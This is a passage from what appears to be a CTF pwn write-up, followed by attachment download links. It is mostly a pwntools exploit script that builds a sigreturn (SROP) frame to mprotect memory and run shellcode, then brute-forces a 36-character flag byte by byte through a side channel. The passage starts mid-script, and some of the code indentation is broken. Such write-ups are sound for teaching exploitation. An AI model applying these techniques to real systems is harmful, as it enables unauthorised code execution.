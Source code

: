 ```bash
            '''.format(dis,char))
    frame = SigreturnFrame()
    frame.rdi = 10
    frame.rsi = 0x404000
    frame.rdx = 0x1000
    frame.rcx = 7
    frame.rip = syscall
    frame.rsp = 0x4041ba
    pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
    pl = pl.ljust(0x200,b'\x00')
    pl+=shellcode
    sa('easyhack\n',pl)
    sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
    s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))
    s(p64(0x404060+0x2a+0x10))   

flag = ""

for i in range(len(flag),36):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        #p=remote('47.108.206.43',45461)
        try:
        exp(i,j)
        p.recvline(timeout=1)
        flag += chr(j)
        s('\n')
        log.success("{} pos : {} success".format(i,chr(j)))
        p.close()
        break
        except:           
        p.close()
```

![](assets/1703640353-c1a690c3008373b105f447e452f0cfec.gif)silent.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231225192244-ecf08c90-a317-1.zip)

![](assets/1703640353-c1a690c3008373b105f447e452f0cfec.gif)side\_channel.zip (0.925 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231225192247-eeb56cbc-a317-1.zip)

